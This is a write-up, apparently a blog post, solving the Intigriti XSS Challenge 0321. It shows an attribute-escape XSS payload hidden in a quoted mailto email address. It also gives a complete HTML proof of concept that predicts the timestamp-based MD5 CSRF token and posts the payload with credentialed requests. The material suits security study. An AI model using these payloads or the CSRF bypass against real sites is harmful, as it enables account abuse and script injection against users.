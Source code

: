 ```yaml
---
title:      Intigriti - XSS Challenge 0321
author:     BugEmir
date:       2021-10-28 16:38:00
summary:    Escape from a non-standard attribute
categories: Intigriti web exploitation
tags:
 - Intigriti
 - Web Exploitation
 
---
```

## Intigriti — XSS Challenge 

![Capture](https://user-images.githubusercontent.com/59454895/112804703-fff84980-9074-11eb-972e-85a85c837655.PNG)

## Let's start

The challenge website had an input field to enter notes where we could write what we want.
First of all i tried to fuzz in order to see how the challenge would react , the first thing i noticed was a csrf token and our notes in the post request,
i also noticed that if we send a special character to escape the html tag with any strange element it will be sanitized by the server . After a while i
found out that the notes went through htmlspecialchars() function, which should help to prevent xss on this field because it can convert elements like < or > into  HTML entities.

Fortunately during my test i also tried to put an email in the note field ,it  helped me to find a hidden feature (the mailto attribute did not appear with other types of inputs).

![Capture3](https://user-images.githubusercontent.com/59454895/112806481-18696380-9077-11eb-95b0-8221d5b8cc54.PNG)

I tought it was interesting bacause maybe we could escape since the email address appears inside the href attribute of the HTML tag.
I decided to read how "mailto" works from the rfc , and i found out there is a strange way to declare the email with this attribute:
``` "\\\"it's\ ugly\\\""@example.org; ``` .

 It was a very good find , because it could allow to inject javascript between ``` "\\\"it's\ ugly\\\" ```  and ``` "@example.org; ```
  
the final payload was :
``` "\\\"traffik\prova\\\"\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"@outlook.it  ```

The following payload breaks out of the attribute and adds an onmouseover event.
![Capture6](https://user-images.githubusercontent.com/59454895/112814874-063ff300-9080-11eb-9319-a2ce218340fb.PNG)


## CSRF Token bypass
The challenge had CSRF token(in this case hashed with MD5) built in. The page generates a token and stores it in a hidden form input.  That's a problem for our final POC because the server ensure that the form hasn’t been submitted by a malicious site thanks to this token , so we need to bypass it. 

First of all i tried to generate an empty csrf token and a csrf token of the same length as the original but nothing worked.
After a while i noticed that there was also a comment with a timestamp and it helped me a lot , because after a research i understood that the token was generated by taking the unix timestamp and hashandled it in md5 , that's not effective as a protection because is easy to predict .


![Capture5](https://user-images.githubusercontent.com/59454895/112812171-15717180-907d-11eb-91a2-a6b0f9df6459.PNG)

So in order to finish the challenge i made a POC where i could send my xss payload inside the notes parameter with the post request thanks to ``` XMLHttpReques ``` ,  to bypass the csrf token i just took the date with ``` Date.now() ``` function in js and hashandled all in md5.
Final POC:

```html
<html>
  <head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
  </head>
  <body>
    <button onclick="Esegui()">Execute Payload</button>
    <script>
        function Esegui() {
          var url = "https://challenge-0321.intigriti.io/";
          var flag = "\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"
          var xss_payload = "\\\bruno\halltari\\\" + flag + "@outlook.it "

          var d = Date.now().toString().substr(0,10);
          var csrf = CryptoJS.MD5(d).toString();
          var data = "csrf=" + csrf + "&notes=" + xss_payload;

          var request1 = new XMLHttpRequest();
          request1.open("GET",url);
          request1.withCredentials = true;

          request1.onreadystatechange = function () {
            var request2 = new XMLHttpRequest();
            request2.withCredentials = true;
            request2.open("POST", url);
            request2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            request2.send(data);
          }

          request1.send();
        }
    </script>
</body>
</html>
```
